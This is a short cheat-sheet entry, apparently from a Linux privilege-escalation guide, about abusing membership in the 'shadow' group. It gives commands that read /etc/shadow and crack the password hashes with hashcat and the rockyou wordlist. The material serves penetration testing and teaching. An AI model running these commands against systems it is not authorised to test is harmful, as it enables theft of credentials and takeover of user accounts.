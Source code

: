 # Shadow Group

The Shadow group is associated with files that store sensitive user password information, such as password hashes and other authentication data.

## Attack

An attacker could exploit read permissions on the `/etc/shadow` file, where password hashes for all users are stored, and attempt a brute-force attack to recover them.

Retrieve the hashes

```bash
cat /etc/shadow
```

Crack the hashes

```bash
hashcat -m 1800 shadow rockyou.txt
```

